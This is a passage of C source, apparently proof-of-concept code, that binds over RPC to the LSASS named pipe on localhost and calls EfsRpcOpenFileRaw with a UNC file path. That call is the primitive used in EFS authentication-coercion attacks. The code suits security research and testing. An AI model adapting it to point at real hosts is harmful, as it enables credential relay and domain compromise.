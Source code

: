 ```c
        (RPC_WSTR)L"\\\\127.0.0.1", // Network address
        (RPC_WSTR)L"\\pipe\\lsass", // Endpoint
        NULL,                       // No options here
        &StringBinding              // Output string binding
    );

    wprintf(L"[*] RpcStringBindingCompose status code: %d\r\n", status);

    wprintf(L"[*] String binding: %ws\r\n", StringBinding);

    status = RpcBindingFromStringBinding(
        StringBinding,              // Previously created string binding
        &Binding                    // Output binding handle
    );

    wprintf(L"[*] RpcBindingFromStringBinding status code: %d\r\n", status);

    status = RpcStringFree(
        &StringBinding              // Previously created string binding
    );

    wprintf(L"[*] RpcStringFree status code: %d\r\n", status);

    RpcTryExcept
    {
        // Invoke remote procedure here
        PVOID pContext;
        LPWSTR pwszFilePath;
        long result;

        pwszFilePath = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
        //StringCchPrintf(pwszFilePath, MAX_PATH, L"C:\\Workspace\\foo123.txt");
        StringCchPrintf(pwszFilePath, MAX_PATH, L"\\\\127.0.0.1\\C$\\Workspace\\foo123.txt");

        wprintf(L"[*] Invoking EfsRpcOpenFileRaw with target path: %ws\r\n", pwszFilePath);
        result = Proc0_EfsRpcOpenFileRaw_Downlevel(Binding, &pContext, pwszFilePath, 0);
        wprintf(L"[*] EfsRpcOpenFileRaw status code: %d\r\n", result);

        LocalFree(pwszFilePath);
    }
    RpcExcept(EXCEPTION_EXECUTE_HANDLER);
    {
        wprintf(L"Exception: %d - 0x%08x\r\n", RpcExceptionCode(), RpcExceptionCode());
    }
    RpcEndExcept

    status = RpcBindingFree(
        &Binding                    // Reference to the opened binding handle
    );

    wprintf(L"[*] RpcBindingFree status code: %d\r\n", status);
}

void __RPC_FAR* __RPC_USER midl_user_allocate(size_t cBytes)
{
    return((void __RPC_FAR*) malloc(cBytes));
}

void __RPC_USER midl_user_free(void __RPC_FAR* p)
{
    free(p);
}
```